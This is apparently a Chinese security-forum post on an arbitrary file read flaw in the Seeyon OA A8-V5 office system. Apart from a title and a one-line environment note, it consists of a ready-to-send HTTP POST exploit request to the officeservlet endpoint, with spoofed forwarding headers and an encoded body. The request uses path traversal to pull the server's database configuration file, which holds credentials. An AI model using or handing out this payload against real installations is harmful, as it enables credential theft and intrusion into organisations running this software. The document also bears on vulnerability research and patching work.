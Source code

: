 

# 致远 OA A8-V5 任意文件读取漏洞分析 - 先知社区

致远 OA A8-V5 任意文件读取漏洞分析

- - -

### 致远 OA A8-V5 任意文件读取漏洞分析

#### 漏洞环境

致远 A8 V7.0

#### 漏洞利用

读取`./../../base/conf/datasourceCtp.properties`路径下的数据库配置文件

```bash
POST /seeyon/officeservlet HTTP/1.1
Host: 10.0.103.21
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=98FCAEBB95CCBEB2C7209BEF7EAA7B3E; loginPageURL=
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 350

DBSTEP V3.0     285             0               0              
RECORDID=wLoi
CREATEDATE=wLehP4whzUoiw=66
originalFileId=wLoi
needReadFile=yRWZdAS6
originalCreateDate=wLehP4whzUoiw=66
OPTION=LKDxOWOWLlxwVlOW
TEMPLATE=qf85qf85qfDfeazQqAzvcRevy1W3eazvNaMUySz3d7TsdRDsyaM3nYli
COMMAND=BSTLOlMSOCQwOV66
affairMemberId=wLoi
affairMemberName=wLoi
```
